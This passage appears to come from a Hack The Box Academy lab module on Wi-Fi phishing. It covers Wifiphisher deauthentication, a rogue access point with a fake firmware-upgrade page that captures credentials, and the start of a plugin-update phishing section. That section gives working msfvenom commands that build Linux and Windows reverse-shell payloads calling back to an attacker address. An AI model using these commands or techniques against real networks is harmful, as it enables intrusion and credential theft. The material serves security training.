 </table>
<p>Once the target network is identified, we press <code>[Enter]</code> to select it. Wifiphisher then automatically performs the deauthentication attack, disconnecting clients currently connected to the target network. Afterward, the disconnected clients are redirected to the rogue access point, which is now broadcasting, making them attempt to reconnect.</p>
<p><img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/net_000.PNG">
<img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/net_001.PNG"/></img></p>
<p>The rogue AP appears to the clients as the legitimate network, leading them to interact with the phishing page (such as the fake firmware upgrade page).
<img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/net_002.PNG">
<img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/net_003_.PNG"/></img></p>
<p>After the victim enters the valid credentials, Wifiphisher captures them and displays the details in the terminal log. The captive portal then shows a fake firmware upgrade progress page, deceiving the victim into believing that the router is undergoing an upgrade. This creates a convincing illusion of a legitimate process, further increasing the likelihood of the victim falling for the attack.</p>
<p><img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/net_004_.PNG">
<img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/net_005.PNG"/></img></p>
<p>Before proceeding with the next attack, it's a good practice to reset the network interfaces to their normal state by running the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo systemctl restart NetworkManager
</code></pre>
<p>This ensures that the Wi-Fi interfaces are properly restored and ready for further use, especially if any network management changes were made during the previous attack.</p>
<hr/>
<h3>3. Plugin Update Phishing</h3>
<p>This attack involves setting up a fake plugin update page that hosts malware crafted by the attacker. When the victim downloads and installs the plugin from the phishing page, it unknowingly executes the malware, compromising the victim's system.</p>
<p>Tools like <a href="https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html">msfvenom</a> can be used to generate malicious payloads for this attack. These payloads can be crafted to gain Remote Code Execution (RCE) in the victim's system once the plugin is downloaded and executed by the victim.</p>
<p>In the lab environment, where the target (client) is using a Linux OS, we can generate a payload for the reverse shell using msfvenom. The following command will create a malicious payload for Linux:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf &gt; shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
</code></pre>
<p>Additionally for targets using Windows OS, the corresponding command would be:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe &gt; shell.exe

